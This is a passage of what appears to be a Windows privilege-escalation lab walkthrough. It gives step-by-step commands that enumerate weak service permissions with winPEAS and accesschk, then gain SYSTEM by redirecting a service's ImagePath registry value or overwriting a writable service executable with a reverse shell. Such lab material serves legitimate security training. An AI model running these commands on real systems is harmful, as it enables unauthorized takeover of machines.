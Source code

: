 3. Alternatively accesschk.exe can be used to confirm:

```
> .\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

4. Overwrite the ImagePath registry key to point to our reverse shell executable:

```
> reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```

5. Start a listener on Kali, and then start the service to trigger the exploit:

```
> net start regsvc
```

6. You could also need to reboot the machine to restart the service:

```
shutdown /r /t 0
```

### <mark style="color:blue;">Insecure Service Executables</mark>

1. Run winPEAS to check for service misconfigurations:

```
> .\winPEASany.exe quiet servicesinfo
```

2. Query the "filepermsvc" service and note that it runs with SYSTEM privileges (SERVICE\_START\_NAME).

```
> sc qc filepermsvc
```

3. Note that the “filepermsvc” service has an executable which appears to be writable by everyone. We can confirm this with accesschk.exe:

```
> .\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
```

4. Let's check if we can start and stop the service:

```
> .\accesschk.exe /accepteula -uvqc filepermsvc
```

5. Create a backup of the original service executable:

```
> copy "C:\Program Files\File Permissions Service\filepermservice.exe" C:\Temp
```

6. Copy the reverse shell executable to overwrite the service executable:

```
> copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe"
```
